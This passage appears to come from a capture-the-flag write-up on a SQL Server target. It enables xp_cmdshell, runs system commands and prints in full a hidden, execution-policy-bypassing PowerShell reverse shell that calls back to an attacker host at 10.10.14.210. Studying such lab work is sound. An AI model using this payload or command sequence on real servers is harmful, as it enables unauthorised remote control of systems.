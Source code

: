 ```
EXEC xp_cmdshell 'net user';
```

*Indeed is not activated. For this reason we will need to proceed with the activation of ```xp_cmdshell``` as follows:*

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

Note: To enable ```xp_cmdshell``` on SQL Server, we first need to allow advanced options by running ```EXEC sp_configure 'show advanced options', 1;```. After that, execute ```RECONFIGURE;``` to apply the changes. Then, run ```sp_configure;``` to verify the available options. Finally, enable ```xp_cmdshell``` by running ```EXEC sp_configure 'xp_cmdshell', 1;``` and apply this change with another ```RECONFIGURE;```. This sequence allows us to execute commands through SQL Server using xp_cmdshell.

*Now we are able to execute system commands:*

```
xp_cmdshell "whoami"
```

Note: to quickly check the current working directory, we can issue the following command:

```
xp_cmdshell "powershell -c pwd"
```

The the write-up continues: *now, we will attempt to get a stable reverse shell. We will upload the nc64.exe binary to the target machine and execute an interactive cmd.exe process on our listening port.*

Note: The nc64.exe binary is a standalone 64-bit version of Netcat, which is a versatile networking utility used for reading from and writing to network connections using TCP or UDP. It's particularly handy for establishing reverse shells.

However, I’m always against touching the disk unless there's no other alternative. For this reason, I opted for a stealthier method by deploying a PowerShell payload capable of establishing a reverse shell with my ncat listener.

A great resource for generating payloads is [RevShells](https://www.revshells.com/). I selected the following shell type: Reverse > Windows > PowerShell#3 (base64).

But first, here’s the cleartext payload (without base64 encoding) for quick reference:

```
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.10.14.210', 8000);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
